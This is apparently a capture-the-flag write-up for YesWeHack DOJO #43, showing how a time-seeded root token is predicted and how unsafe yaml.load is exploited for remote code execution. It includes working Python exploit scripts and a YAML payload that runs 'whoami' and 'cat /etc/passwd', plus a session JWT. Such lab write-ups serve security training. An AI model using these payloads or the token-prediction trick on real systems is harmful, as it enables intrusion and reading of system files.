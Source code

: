 ```yaml
---
layout: single
title: Remote Code Execution via Unsafe YAML Deserialization with Token Bypass - DOJO #43
excerpt: "The challenge code performs unsafe YAML deserialization (yaml.load) on user-controlled input without proper validation or sandboxing, allowing remote code execution (RCE) via crafted payloads. A token-based access control is implemented comparing a guest token with a generated root token, but the check is flawed or bypassable, enabling an attacker to pass the authentication and reach the vulnerable YAML deserialization code. However, an attacker can bypass or control these tokens (e.g., via predictable token generation using the current time as seed), allowing access to the deserialization block where yaml.load is called with yaml.Loader. This allows arbitrary command execution via the !!python/object/apply:os.system YAML tag or similar techniques.
date: 2025-08-03
classes: wide
header:
  teaser: /img2/images/ywh.webp
  teaser_home_page: true
  icon: /img2/images/ywh_logo.png
categories:
  - yeswehack
  - Web
tags:
  - Auth-Token Bypass
  - Python Deserialization Attack (DES-Yaml)
---
```



![](/img2/Pasted%20image%2020250803225647.png)

> By reviewing the Python code, we see that for our token to be valid, it must be the same as the token generated by the server.

```python
import random
import time

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))

tokenRoot = genToken(int(time.time()) // 1)
print(f"TOKEN: {tokenRoot} --> TIME: {int(time.time()) // 1}")
```

![](/img2/Pasted%20image%2020250803230052.png)

> To replicate the behavior when generating the cookie, we can create a small script. By running the script several times, we can see that there's a range in which the same session cookie is generated, due to the poor implementation of time.

```python
import requests
import random
import time
import json
from bs4 import BeautifulSoup

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))


url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": 'testing', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass     
```

```bash
python3 cookie_poc.py > index.html
```

```bash
python3 -m http.server 80
```

![](/img2/Pasted%20image%2020250803230643.png)

> By replicating the result from our script on our own HTTP server, we can see that we've successfully bypassed the session token.

![](/img2/Pasted%20image%2020250803231016.png)

```python
!!python/object/apply:os.system ["whoami"]
```

> Once we gained access to the firmware update function, we reviewed the code and saw that it uses the `yaml.load()` function, which is vulnerable to Code Execution via Unsafe YAML Deserialization.

```python
import requests
import random
import time
import json
from bs4 import BeautifulSoup

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))



url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": '!!python/object/apply:os.system ["cat /etc/passwd"]', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass
```

```bash
python3 poc.py
```

![](/img2/Pasted%20image%2020250803231448.png)

 > To achieve RCE, it's necessary to send a request with the token bypass and the payload `!!python/object/apply:os.system ["whoami"]` in the 'yaml' field.
## Flag

![](/img2/Pasted%20image%2020250803231544.png)

> Once we're able to execute arbitrary commands within the system, we can retrieve the flag at the end of the request.